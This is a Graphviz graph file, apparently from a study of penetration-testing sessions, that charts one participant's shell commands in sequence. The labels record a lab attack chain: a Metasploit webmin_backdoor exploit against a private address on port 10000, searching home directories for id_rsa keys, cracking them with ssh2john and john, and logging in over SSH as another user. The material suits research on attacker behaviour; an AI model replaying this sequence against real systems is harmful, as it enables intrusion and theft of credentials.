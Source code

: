 // creating graph for user: 69
digraph {
	node [shape=box]
	0 [label="ls A10 "]
	1 [label="cd .. U"]
	2 [label="ls A10 "]
	3 [label="cd etc U"]
	4 [label="ls A10 "]
	5 [label="cd ... U"]
	6 [label="cd .. U"]
	7 [label="ls A10 "]
	8 [label="cd root U"]
	9 [label="ls A10 "]
	10 [label="ssh 172.18.1.5 -p 10000 A16 "]
	11 [label="ssh 172.18.1.5 A16 "]
	12 [label="metasploit U"]
	13 [label="metasploit U"]
	14 [label="service postgresql start U"]
	15 [label="msfsplayload U"]
	16 [label="msfplayload U"]
	17 [label="msf U"]
	18 [label="msfconsole A2 M2 "]
	19 [label="cd .. U"]
	20 [label="cd home U"]
	21 [label="cd root U"]
	22 [label="cd debian U"]
	23 [label="cd U"]
	24 [label="cd .. U"]
	25 [label="exit U"]
	26 [label="msfconsole V2 "]
	27 [label="cd .. U"]
	28 [label="cd root U"]
	29 [label="info U"]
	30 [label="help search A3 "]
	31 [label="search 1.920 A3 "]
	32 [label="use exploit/unix/webapp/webmin_backdoor  A8 M8 "]
	33 [label="show options A5 M5 "]
	34 [label="set vhost A6 "]
	35 [label="set lhost 10.1.135.83 A6 "]
	36 [label="set lhost 172.18.1.5  A6 "]
	37 [label="set lport 10 000 A6 "]
	38 [label="set lport 10000 A6 "]
	39 [label="exploit V8 "]
	40 [label="set rhost 172.18.1.5 A6 "]
	41 [label="ifconfig U"]
	42 [label="set lhost 10.1.135.83 A6 "]
	43 [label="exploit V8 "]
	44 [label="set rport 10000 A6 "]
	45 [label="set lhost A6 "]
	46 [label="exploit V8 "]
	47 [label="ls A10 "]
	48 [label="ls A10 "]
	49 [label="cd .. U"]
	50 [label="exit U"]
	51 [label="ls A10 "]
	52 [label="ls A10 "]
	53 [label="mfsconsole U"]
	54 [label="ls A10 "]
	55 [label="msfconsole V2 "]
	56 [label="show options V5 "]
	57 [label="set rhost 172.18.1.5 A6 "]
	58 [label="set rport  A6 "]
	59 [label="exit U"]
	60 [label="ls A10 "]
	61 [label="msfconsole V2 "]
	62 [label="set rport 10000 A6 "]
	63 [label="set shost A6 "]
	64 [label="set rhost A6 "]
	65 [label="set rhost 172.18.1.5 A6 "]
	66 [label="set lhost 10.1.135.83 A6 "]
	67 [label="show options V5 "]
	68 [label="use 1.920 A4 "]
	69 [label="set lhost A6 "]
	70 [label="set rhost A6 "]
	71 [label="set rhost 172.18.1.5 A6 "]
	72 [label="set rport 10000 A6 "]
	73 [label="ls A10 "]
	74 [label="cd /root U"]
	75 [label="ls A10 "]
	76 [label="ls A10 "]
	77 [label="cd ..ls A10 "]
	78 [label="cd .. U"]
	79 [label="ls A10 "]
	80 [label="home U"]
	81 [label="cd U"]
	82 [label="ls A10 "]
	83 [label="cd .. U"]
	84 [label="ls A10 "]
	85 [label="cd home U"]
	86 [label="ls A10 "]
	87 [label="cd eve U"]
	88 [label="ls A10 "]
	89 [label="cd .. U"]
	90 [label="ls A10 "]
	91 [label="cd U"]
	92 [label="ls A10 "]
	93 [label="ls A10 "]
	94 [label="cd .. U"]
	95 [label="ls A10 "]
	96 [label="cd home U"]
	97 [label="ls A10 "]
	98 [label="cd alice U"]
	99 [label="ls A10 "]
	100 [label="cd .. U"]
	101 [label="ls A10 "]
	102 [label="cd bob U"]
	103 [label="ls A10 "]
	104 [label="cd U"]
	105 [label="l U"]
	106 [label="ls A10 "]
	107 [label="c d.. U"]
	108 [label="locate A1 A9 A10 A11 A12 A17 "]
	109 [label="find A10 "]
	110 [label="./.bash_historysa U"]
	111 [label="./.bash_history U"]
	112 [label="sudo ./.bash_history U"]
	113 [label="id_rsa U"]
	114 [label="ssh2john.py A14 A16 "]
	115 [label="find ssh2john.py A10 A14 A16 "]
	116 [label="ls A10 "]
	117 [label="cd .. U"]
	118 [label="ls A10 "]
	119 [label="cd home U"]
	120 [label="ls A10 "]
	121 [label="cd eve U"]
	122 [label="ls A10 "]
	123 [label="id U"]
	124 [label="id_rsa eve U"]
	125 [label="ls A10 "]
	126 [label="ls A10 "]
	127 [label="lsa A10 "]
	128 [label="ls a A10 "]
	129 [label="la U"]
	130 [label="ls a A10 "]
	131 [label="list all U"]
	132 [label="list U"]
	133 [label="lsa A10 "]
	134 [label="ssh eve@10.1.17.4 A16 M16 "]
	135 [label="ls A10 "]
	136 [label="cd .. U"]
	137 [label="cd .. U"]
	138 [label="ls A10 "]
	139 [label="john hash A14 "]
	140 [label="john bash A14 "]
	141 [label="/home/eve/.ssh# ssh -l id_rsa eve@172.17.5.4 V16 "]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 68 [constraint=false]
	68 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	70 -> 71 [constraint=false]
	71 -> 72 [constraint=false]
	72 -> 73 [constraint=false]
	73 -> 74 [constraint=false]
	74 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	76 -> 77 [constraint=false]
	77 -> 78 [constraint=false]
	78 -> 79 [constraint=false]
	79 -> 80 [constraint=false]
	80 -> 81 [constraint=false]
	81 -> 82 [constraint=false]
	82 -> 83 [constraint=false]
	83 -> 84 [constraint=false]
	84 -> 85 [constraint=false]
	85 -> 86 [constraint=false]
	86 -> 87 [constraint=false]
	87 -> 88 [constraint=false]
	88 -> 89 [constraint=false]
	89 -> 90 [constraint=false]
	90 -> 91 [constraint=false]
	91 -> 92 [constraint=false]
	92 -> 93 [constraint=false]
	93 -> 94 [constraint=false]
	94 -> 95 [constraint=false]
	95 -> 96 [constraint=false]
	96 -> 97 [constraint=false]
	97 -> 98 [constraint=false]
	98 -> 99 [constraint=false]
	99 -> 100 [constraint=false]
	100 -> 101 [constraint=false]
	101 -> 102 [constraint=false]
	102 -> 103 [constraint=false]
	103 -> 104 [constraint=false]
	104 -> 105 [constraint=false]
	105 -> 106 [constraint=false]
	106 -> 107 [constraint=false]
	107 -> 108 [constraint=false]
	108 -> 109 [constraint=false]
	109 -> 110 [constraint=false]
	110 -> 111 [constraint=false]
	111 -> 112 [constraint=false]
	112 -> 113 [constraint=false]
	113 -> 114 [constraint=false]
	114 -> 115 [constraint=false]
	115 -> 116 [constraint=false]
	116 -> 117 [constraint=false]
	117 -> 118 [constraint=false]
	118 -> 119 [constraint=false]
	119 -> 120 [constraint=false]
	120 -> 121 [constraint=false]
	121 -> 122 [constraint=false]
	122 -> 123 [constraint=false]
	123 -> 124 [constraint=false]
	124 -> 125 [constraint=false]
	125 -> 126 [constraint=false]
	126 -> 127 [constraint=false]
	127 -> 128 [constraint=false]
	128 -> 129 [constraint=false]
	129 -> 130 [constraint=false]
	130 -> 131 [constraint=false]
	131 -> 132 [constraint=false]
	132 -> 133 [constraint=false]
	133 -> 134 [constraint=false]
	134 -> 135 [constraint=false]
	135 -> 136 [constraint=false]
	136 -> 137 [constraint=false]
	137 -> 138 [constraint=false]
	138 -> 139 [constraint=false]
	139 -> 140 [constraint=false]
	140 -> 141 [constraint=false]
	rankdir=LR
}

